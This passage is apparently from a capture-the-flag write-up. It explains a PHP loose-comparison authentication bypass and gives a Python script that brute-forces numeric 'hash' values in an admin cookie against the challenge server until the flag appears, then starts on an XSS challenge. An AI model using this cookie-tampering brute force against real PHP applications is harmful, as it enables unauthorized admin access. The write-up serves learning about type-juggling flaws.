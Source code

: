 ```php
```

From the source code above, we need to find a hash could pass the comparison between `$session_data['hash']` and `MD5($cfg_pass)`

And, when one of the operand is a string and the other one is a number, the operator `!=` in PHP would change string operand into to a number and the comparison performed numerically.

e.g. `var_dump(100 == "100abc"); // 100 == 100 -> true`

By this feature in PHP, we can try to input some number and bypass this comparison.

Plus, I got a hint `0006464640640064000646464640006400640640646400` when I try to input something to test.

From the hint, we know the string start with at most 3 continuous digit characters.

Therefore, we just need to find a number from 0 to 999 could pass the comparison.

```python
#!/usr/bin/env python3
import sys
import requests

hint = "0006464640640064000646464640006400640640646400"
limit = 1000
url = "http://gameserver.zajebistyc.tf/admin/login.php"

for i in range(limit):
	cookies = dict(otadmin='{"hash": ' + str(i) + '}')
	sys.stdout.write('\rTesting value: ' + str(i) + ' of ' + str(limit))
	sys.stdout.flush()

	html = requests.get(url, cookies=cookies)
	if hint not in html.text: 
		break

print()
print()
print(html.text)
```
With my script above, we can hit the md5 when `$session_data['hash']` is 389.

And the flag is shown: 
```
Congratulations! p4{wtf_php_comparisons_how_do_they_work...}
```


### Web 50

> bookgin

In this challenge we can edit our profile page, and report a link to admin. It's a classic XSS scenario.

